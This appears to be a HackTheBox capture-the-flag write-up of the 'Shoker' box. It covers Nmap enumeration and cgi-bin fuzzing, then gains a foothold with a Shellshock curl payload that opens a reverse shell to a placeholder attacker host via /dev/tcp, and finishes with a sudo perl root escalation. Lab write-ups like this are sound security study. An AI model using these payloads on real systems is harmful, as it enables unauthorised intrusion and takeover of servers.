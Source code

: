 ```yaml
---
title: Shoker
date: 2020-11-28 07:10:10 +/-TTTT
categories: [CTF, hackthebox]
tags: [sudo, shellshock]
---
```


## Enumeration

![info card](/assets/htb/shoker/infocard.png)

Shoker is an easy box and by the name, we can guess that it has shellshock vulnerability. which allow attacker to remotely execute code on system. its found in unix bash shell so it can be found every linux unix system. and for privs we can use sudo.


as always we start with Nmap scan.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-28 10:28 EST
Nmap scan report for 10.10.10.56
Host is up (0.39s latency).

PORT      STATE  SERVICE      VERSION
80/tcp    open   http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open   ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
25000/tcp closed icl-twobase1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.37 seconds

```

We have port 80 open so lets check webpage first.

![webpage](/assets/htb/shoker/webpage.png)

nothing interested here. lets find out direcotories for webpage by using ffuf.

![fuff](/assets/htb/shoker/fuff.png)

we got `cgi-bin` and when we recursivelly scan `/cgi-bin` for `.bin`,`.sh`,`cgi` extentions, we got `user.sh`.

![user](/assets/htb/shoker/user.png)

## Gaining Shell

We have to craft payload to gain shell on the box.

`curl -A “() { :; }; /bin/bash -i > /dev/tcp/attacker_ip/port 0<&1 2>&1” http://10.10.10.56/cgi-bin/user.sh`

`/bin/bash -i` : defind that shell must be interactive.

`> /dev/tcp/attacker_ip/port` : this will redirect the output of the shell to attacker via tcp connection.

`0<&1 2>&1` : its basically indicates that input coming from a TCP connection, and output going to the same TCP connection.

by this payload we can get shell on the box.

![user flag](/assets/htb/shoker/userflag.png)

## Getting Root

its easy to escalate privs in this box we can run perl as root.

`sudo perl -e 'exec "/bin/sh";'` 

![root](/assets/htb/shoker/root.png)


